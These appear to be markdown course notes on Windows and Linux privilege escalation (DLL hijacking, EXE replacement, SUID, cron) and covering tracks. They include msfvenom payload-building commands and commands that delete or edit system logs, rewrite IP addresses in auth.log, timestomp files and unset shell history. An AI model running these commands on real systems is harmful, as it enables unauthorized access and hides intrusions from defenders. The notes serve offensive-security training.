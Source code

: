 # Windows
#### Scheduled Tasks and Services
* Write Permissions
* Non-Standard Locactions
* Unquoted Executable Paths
* Vulnerabilities in Executables
* Permissions to Run as `SYSTEM`
#### DEMO: Finding vulnerable Scheduled Tasks
##### DLL Stuff
* Can you rename the file?
* Can you write to the directory?
* Go to procmon:
  - filter by process name "Name of Process"
  - Filter result contains "NAME NOT FOUND"
  - filter path contains ".dll"
* MSFVENOM
  - `msfvenom -p windows/exec CMD='cmd.exe /c "whoami" > C:\users\student\desktop\whoami.txt' -f dll > SSPICLI.dll`
  - SCP the file over to the windows station
#### EXE Replacement
* Can you rename the file?
* Can you write to the directory?
* MSFVENOM
  - `msfvenom -p windows/exec CMD='cmd.exe /c "whoami" > C:\users\student\desktop\whoami.txt' -f exe > putty.exe`
* Drag and drop the payload
```
auditpol /get /category:*
auditpol /get /category:* | findstr /i "success failure"
```
#### Important Microsoft Event IDs
* 4624/4625 - Successful/failed login
* 4720 - Account created
* 4672 - Adminstrative User logged on
* 7045 - Service Created

# Linux
#### Resources
* [GTFOBins](https://gtfobins.github.io)
#### Sudo Gotchas!
* Commands that can access the contents of other files
* Commands that download files
* Commands that execute other commands (Like editors)
* Dangerous Commands
#### SUID/SGID
* The User that owns the file can edit the file (SUID)
* The group that owns the file can edit the file (SGID)
* Everyone can edit the file, but only one user can delete the file (Sticky Bit)
* `find / -type f -perm /4000 -ls 2>/dev/null    # Find files with specific permissions (SUID: 4000) (SGID: 2000) (BOTH: 6000)`
#### Insecure Permissions
* CRON
  - `-l  # List`
  - `-e  # Edit`
  - `contab -u <user> -l  # List crontab for specific user`
* World-Writable Files and Directories
  - * `find / -type d -perm /2 -ls 2>/dev/null`
* Dot '.' in PATH
  - Lets you execute commands that are in your present working directory
#### Vulnerable Software and Services
#### Unpatched Kernel Vulnerabilities
## Persistence
#### User Account Demo
```

```
### Cron Persistence Demo
```

```
## Covering Your Tracks
#### Artifacts
* Things that we leave behind in a system
#### NIX-ism
* First thing: unset HISTILE
* Need to be  aware of init system in use
  - SYSTEMV, upstart, SYSTEMD, to name a few
  - Determines what commands to use and logging structure
* How to tell if sysV or Systemd `ps -p 1`
#### SystemD
* Utilizes `journalctl`
* `journalctl _TRANSPORT=audit | grep 603`
#### Working with Logs
```
file /var/log/wtmp
file /var/log -type f -mmin -10 2>/dev/null
journal -f -u ssh
journalctl -q SYSLOG_FACILITY=10 SYSLOG_FACILITY=4
```
#### Cleaning The Logs (Basic)
* Before we start cleaining, save the INODE!
  - Affect on the inode of using `mv` vs `cp` vs `cat`
##### Get rid of it
* `rm -rf /var/log/...`
##### Clear it
* `cat /dev/null > /var/log/...`
* `echo > /var/log/...`
#### Cleaning The Logs (Precise)
##### GREP (Remove)
* `egrep -v '10:49*| 15:15:15' auth.log > auth.log2; cat auth.log2 > auth.log; rm auth.log2`
##### SED (Replace)
* `cat auth.log > auth.log2; sed -i 's/10.16.10.93/136.132.1.1/g' auth.log2; cat auth.log2 > auth.log`
##### Timestomp
* `touch -c -t 201603051015 1.txt    # Explicit`
* `touch -r 3.txt 1.txt    # Reference`
#### Rsyslog
* Newer Rsyslog references `/etc/rsyslog.d/*` for settings/rules
* Older versions only uses `/etc/ryslog.conf`
* Find out with `grep "IncludeConfig /etc/rsyslog.conf`
```
kern.*                                                # All kernel messages, all severities
mail.crit
cron.!info,!debug
*.*  @192.168.10.254:514                                                    # Old format
*.* action(type="omfwd" target="192.168.10.254" port="514" protocol="udp")   # New format
#mail.*
```
# CTF
```
watch -n1 'ls -l'
```












